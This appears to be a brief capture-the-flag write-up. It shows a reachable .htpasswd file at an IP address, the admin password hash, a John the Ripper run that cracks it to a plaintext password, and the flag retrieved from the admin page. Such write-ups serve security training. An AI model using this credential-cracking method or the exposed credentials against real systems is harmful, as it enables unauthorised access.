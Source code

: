 # Protected Directory

### Tags: web, john

http://167.71.246.232/.htpasswd/

htpasswd
```admin:$apr1$1U8G15kK$tr9xPqBn68moYoH4atbg20```

## John The Ripper
```
john htpasswd
admin:alesh16
 ```
http://167.71.246.232/admin/
```flag{cracked_the_password} ```
